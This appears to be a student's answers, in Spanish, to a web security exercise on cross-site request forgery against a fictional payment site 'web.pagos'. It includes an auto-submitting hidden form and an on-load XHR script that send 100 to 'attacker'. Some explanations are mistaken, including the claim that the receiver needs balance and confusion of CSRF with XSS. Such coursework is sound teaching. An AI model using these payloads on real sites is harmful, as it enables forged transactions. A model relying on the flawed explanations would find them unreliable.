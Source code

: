 Código: 

```html
<form id="attackForm" action="http://web.pagos/donate.php" method="post">
    <input type="hidden" name="amount" value="100">
    <input type="hidden" name="receiver" value="attacker">
</form>
<script>
    document.getElementById("attackForm").submit();
</script>
```

c) Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.

Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).

- Permitir donaciones entre usuarios registrados
- No requerir confirmación adicional del usuario receptor de la donación
- Los usuarios deben de haber iniciado sesión en sus cuentas en ‘web.pagos’
- El usuario receptor de la donación debe tener una cuenta válida y suficiente saldo en su cuenta para recibir la donación.

d) Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.

No quedaría del todo blindado completamente debido a que sería posible realizar ataques XSS si los parámetros se incorporan directamente en el cuerpo de la solicitud POST sin una adecuada validación y sanitización.

Si ponemos esto en un comentario:

```html
<script>
    // Realizar ataque de forma automática al cargar la página
    document.addEventListener("DOMContentLoaded", function() {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://web.pagos/donate.php");
        xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr.send("amount=100&receiver=attacker");
    });
</script>

```

Cuando aceda a la página que se encuentre el script, resultaría en una solicitud POST con los parámetros "amount" y "receiver" establecidos en valores específicos, sin que el usuario tenga conocimiento de ello.